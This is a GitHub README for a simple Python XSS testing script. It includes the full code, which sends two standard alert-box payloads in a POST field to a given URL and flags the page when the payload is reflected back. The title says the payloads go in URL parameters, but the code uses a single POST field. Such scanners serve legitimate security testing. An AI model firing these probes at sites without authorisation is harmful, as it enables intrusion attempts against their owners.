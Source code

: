 
# URL-based XSS Testing Script

This repository contains a Python script for testing Cross-Site Scripting (XSS) vulnerabilities by injecting payloads via URL parameters.

## Description

This script is designed to test for XSS vulnerabilities by sending common XSS payloads in HTTP POST requests to a specified URL. If the payload is reflected in the response, the script identifies the parameter as vulnerable.

## Features

- Sends predefined XSS payloads in HTTP POST requests.
- Checks if the payload is reflected in the response.
- Logs the vulnerable parameter and the payload used.

## Usage

### Prerequisites

- Python 3.x
- `requests` library

### Installation

1. Clone the repository:

    ```bash
    git clone https://github.com/arifbinekram/url-based-XSS.git
    cd url-based-XSS
    ```

2. Install the required library:

    ```bash
    pip install requests
    ```

### Running the Script

1. Run the script with the target URL:

    ```bash
    python script.py <url>
    ```

    Replace `<url>` with the actual URL you want to test.

### Example

```bash
python script.py http://example.com/vulnerable-page
```

## Script Explanation

```python
import requests
import sys

def test_xss(url, payloads):
    for payload in payloads:
        try:
            req = requests.post(url, data={"input": payload})
            if payload in req.text:
                print("Parameter vulnerable")
                print("Attack string:", payload)
                print(req.text)
                break
        except requests.exceptions.RequestException as e:
            print("Error:", e)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python script.py <url>")
        sys.exit(1)

    url = sys.argv[1]
    payloads = ['<script>alert(1);</script>', '<BODY ONLOAD=alert(1)>']
    test_xss(url, payloads)
```

### Details

- **Function Definition**: Encapsulates the XSS test logic in a function `test_xss`.
- **Payloads**: Includes common XSS payloads.
- **Exception Handling**: Manages potential errors during the requests.
- **Usage Check**: Ensures the script is run with the correct number of arguments.
- **Data Parameter**: Sends the payload as part of a POST request body.

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

---

Feel free to customize this README further based on your specific requirements or preferences.

